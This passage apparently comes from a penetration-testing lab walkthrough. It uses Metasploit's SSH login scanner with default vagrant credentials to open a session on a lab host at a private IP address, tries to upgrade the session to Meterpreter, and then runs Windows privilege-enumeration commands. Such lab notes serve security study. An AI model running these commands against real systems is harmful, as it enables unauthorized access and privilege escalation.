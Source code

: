 
- Obtain a `Meterpreter` session

```bash
msfconsole
```

```bash
use auxiliary/scanner/ssh/ssh_login
setg RHOST 10.2.16.83
setg RHOSTS 10.2.16.83
set USERNAME vagrant
set PASSWORD vagrant
run
session 1
# CTRL+Z to background

sessions -u 1
	[-] Target is running Windows on an unsupported architecture such as Windows ARM!

# The manual msfvenom payload upload can be tried
```

- Back on the SSH session

```bash
bash
net localgroup administrators
whoami /priv
```

![](.gitbook/assets/image-20230424115215390.png)
